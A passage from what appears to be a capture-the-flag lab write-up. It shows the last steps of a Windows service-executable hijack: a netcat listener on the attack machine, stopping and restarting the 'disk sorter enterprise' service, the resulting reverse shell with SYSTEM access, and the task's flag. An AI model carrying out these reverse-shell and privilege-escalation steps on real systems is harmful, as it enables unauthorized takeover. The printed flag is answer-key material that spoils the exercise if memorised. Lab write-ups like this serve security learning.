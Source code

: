9. `nc -lvnp <PORT NUMBER>` from our attack machine to open up a netcat listener that'll listen for any inbound connection
```Bash
root@ip-10-10-6-207:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

10. `sc stop <SERVICE>` from the compromised Windows machine to stop our target service
```Powershell
C:\Users\thm-unpriv>sc stop "disk sorter enterprise"

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

11. `sc start <SERVICE>` from the compromised Windows machine to start up our target service once again, but this time it'll end up executing our reverse shell payload that we used to replaced its original executable with and spawning a reverse shell that connected back to our netcat listener on our attack machine
```PowerShell
C:\Users\thm-unpriv>sc start "disk sorter enterprise"

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 936
        FLAGS              :
```
```Bash
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.165.129 49761 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

12. `type <FILENAME>` from the reverse shell to display the contents of the file containing this task's flag
```PowerShell
C:\Windows\system32>type C:\Users\svcusr2\Desktop\flag.txt
type C:\Users\svcusr2\Desktop\flag.txt
THM{QUOTES_EVERYWHERE}
```
